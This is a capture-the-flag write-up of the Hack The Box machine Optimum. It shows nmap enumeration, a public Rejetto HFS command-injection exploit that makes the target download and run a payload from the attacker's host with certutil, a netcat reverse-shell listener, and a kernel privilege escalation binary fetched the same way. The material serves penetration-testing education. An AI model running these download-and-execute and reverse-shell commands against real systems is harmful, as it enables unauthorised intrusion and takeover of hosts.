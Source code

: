 ```yaml
---
title: Writeup - HTB Optimum
date: 2023-11-13
author: kei5uke
description: Writeup for HTB Optimum
tags:
  - windows
  - writeup
---
```


# Optimum

# Enumeration

## Nmap

```bash
┌──(root💀kali)-[~/optimum]
└─# nmap -sV -sC -T4 -p- 10.129.148.144 -oN nmap.txt
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-13 21:25 EET
Nmap scan report for 10.129.148.144
Host is up (0.039s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 101.83 seconds
```

# Getting shell

Found interesting exploit.

[Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)](https://www.exploit-db.com/exploits/49125)

I ran the command below and got first shell.

```bash
┌──(root💀kali)-[~/optimum]
└─# python3 49125.py 10.129.148.144 80 "certutil.exe -urlcache -split -f "http://10.10.16.23/shell.exe""
http://10.129.148.144:80/?search=%00{.+exec|certutil.exe%20-urlcache%20-split%20-f%20http%3A//10.10.16.23/shell.exe.}
                                                                                                                              
┌──(root💀kali)-[~/optimum]
└─# python3 49125.py 10.129.148.144 80 "shell.exe"                            
http://10.129.148.144:80/?search=%00{.+exec|shell.exe.}
```

```bash
┌──(root💀kali)-[~/optimum]
└─# rlwrap nc -lvnp 21
listening on [any] 21 ...
connect to [10.10.16.23] from (UNKNOWN) [10.129.148.144] 49174
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>whoami
whoami
optimum\kostas
```

# Privilege Escalation

Windows Exploit suggester suggests using this exploit:

```bash
┌──(root💀kali)-[/opt/Windows-Exploit-Suggester]
└─# python windows-exploit-suggester.py -i sysinfo.txt -d 2023-11-13-mssb.xls
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (utf-8)
[*] querying database file for potential vulnerabilities
[*] comparing the 32 hotfix(es) against the 266 potential bulletins(s) with a database of 137 known exploits
[*] there are now 246 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2012 R2 64-bit'
[*] 
[E] MS16-135: Security Update for Windows Kernel-Mode Drivers (3199135) - Important
[*]   https://www.exploit-db.com/exploits/40745/ -- Microsoft Windows Kernel - win32k Denial of Service (MS16-135)
[*]   https://www.exploit-db.com/exploits/41015/ -- Microsoft Windows Kernel - 'win32k.sys' 'NtSetWindowLongPtr' Privilege Escalation (MS16-135) (2)
```

[Microsoft Windows 8.1 (x64) - 'RGNOBJ' Integer Overflow (MS16-098)](https://www.exploit-db.com/exploits/41020)

```bash
C:\Users\kostas\Desktop>certutil.exe -urlcache -split -f "http://10.10.16.23/optimum.exe" 
certutil.exe -urlcache -split -f "http://10.10.16.23/optimum.exe"
```

Installed the binary and got the root shell

![Screenshot 2023-11-13 at 23.17.22.png](Optimum%20a5bef01909654b14ba6fed4ab7784336/Screenshot_2023-11-13_at_23.17.22.png)

# Note

Windows exploit suggester is useful 🙂